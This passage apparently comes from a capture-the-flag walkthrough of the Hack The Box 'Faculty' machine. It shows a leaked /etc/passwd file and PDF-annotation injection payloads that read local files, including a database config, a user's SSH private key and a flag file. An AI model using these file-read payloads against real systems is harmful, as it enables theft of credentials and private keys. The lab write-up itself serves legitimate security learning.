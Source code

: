 <p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/4_5_attached.png" width="90%"/>
</p>


And when clicking on the attackement, we can see the file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Recalling the gobuster output now that we have LFI, I remember the db_connect.php on the /admin path. We can try to exfiltrate it looking for credentials.

With the following payloads I get an error on the PDF generation, probably, the directory are not correct or files does not exist. Also for the flag. Probably, the web app is running as developer...

```xml
<annotation file="/var/www/html/admin/db_connect.php" content="/var/www/html/admin/db_connect.php"  icon="Graph" title="Attached File: db_connect.php" pos-x="195" />

<annotation file="/home/gbyolo/.ssh/id_rsa" content="/home/gbyolo/.ssh/id_rsa"  icon="Graph" title="Attached File: /home/gbyolo/.ssh/id_rsa" pos-x="195" />

<annotation file="/home/gbyolo/user.txt" content="/home/gbyolo/user.txt"  icon="Graph" title="Attached File: flag" pos-x="195" />
```
